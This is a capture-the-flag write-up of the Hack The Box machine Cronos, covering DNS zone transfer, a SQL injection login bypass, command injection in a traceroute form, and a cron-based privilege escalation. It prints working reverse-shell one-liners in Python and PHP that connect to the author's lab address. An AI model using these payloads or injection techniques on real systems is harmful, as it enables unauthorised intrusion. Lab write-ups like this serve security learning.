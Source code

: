 # Cronos

This is my write-up for the machine **Cronos** on Hack The Box located at: [https://app.hackthebox.com/machines/Cronos](https://app.hackthebox.com/machines/Cronos).

nmap scan: `nmap 10.10.10.13`

![](<../../.gitbook/assets/image (462).png>)

We see three ports open. On port 80, we see the following:

![](<../../.gitbook/assets/image (360) (1).png>)

I am not too familiar with DNS enumeration methods. For this reason, after I searched online for a while (and got nowhere), I then read up what I had missed from the official Hack The Box write-up for this machine. In it the author says to add **cronos.htb** to the **/etc/hosts** file. Then run the following command:

`dig axfr @10.10.10.13 cronos.htb`

This will show us the following:

![](<../../.gitbook/assets/image (334).png>)

We see an **admin.cronos.htb**, so we will add that to the **/etc/hosts** file as well (step was mentioned in the official write-up):

![](<../../.gitbook/assets/image (408) (1).png>)

Now if we go to **admin.cronos.htb**, we see the following:

![](<../../.gitbook/assets/image (517).png>)

Looking at the tags for this machine, I believe that we have to do a SQL Injection for this authentication portal:

![](<../../.gitbook/assets/image (705).png>)

I then opened this web page in Burp Suite to see if I can manipulate the outgoing HTTP requests. I was not able to get any where using the **Intruder** or **Repeater** modules. Reading the write-up again, it seems the SQL Injection I did try **admin'--** was incorrect by a small bit. I miseed the extra **" -"** at the end:

![screenshot from official write-up](<../../.gitbook/assets/image (351) (1).png>)

I was then on this page:

![](<../../.gitbook/assets/image (513).png>)

I tried to run two commands together, the traceroute and an additional **ls**:

![](<../../.gitbook/assets/image (382).png>)

When I run `cat index.php`, I get the following:

![](<../../.gitbook/assets/image (611).png>)

To me this means that there is room for me to run a reverse netcat connection to my own machine. Netcat did not work for me but the following python command from [this github page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) worked for me instead:

`export RHOST="10.10.14.14";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`

![](<../../.gitbook/assets/image (641) (1).png>)

I then upgraded by shell to a interactive tty shell (from [this website](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)):

![](<../../.gitbook/assets/image (373).png>)

I was able to find the user.txt flag in the user **noulis**'s home directory:

![](<../../.gitbook/assets/image (674).png>)

In order to upload **linpeas.sh** to the machine, I had to download it locally and serve it up in a python http server:

![](<../../.gitbook/assets/image (588).png>)

I was then able to grab it from the other machine using **wget**:

![](<../../.gitbook/assets/image (602) (1).png>)

In the official write-up, something stood out to me:

![](<../../.gitbook/assets/image (696).png>)

Obviously, in the real world a hint like this would not be given, but since I had tried what I had known and got nowhere, I took a hint from this. This led me to finding this:

![](<../../.gitbook/assets/image (622).png>)

I knew that root was running the **artisan** file. After some messing around, what worked for me was creating a local file named artisan and copying all the contents from the original file into it. Then I edited one line in the file to get me a reverse shell:

`$sock=fsockopen("10.10.14.14",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);`

This was a line I got from the [same GitHub page mentioned previously](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php). After uploading the file using python3 http server, the file would upload as **artisan.1**:

![](<../../.gitbook/assets/image (569).png>)

As shown in the screenshot above, in order to go around this I just updated the file to be the one I gave it. I would recommend you run the netcat listener **prior** to updating the artisan file for best results. After a minute of waiting, I had the shell:

![](<../../.gitbook/assets/image (701).png>)
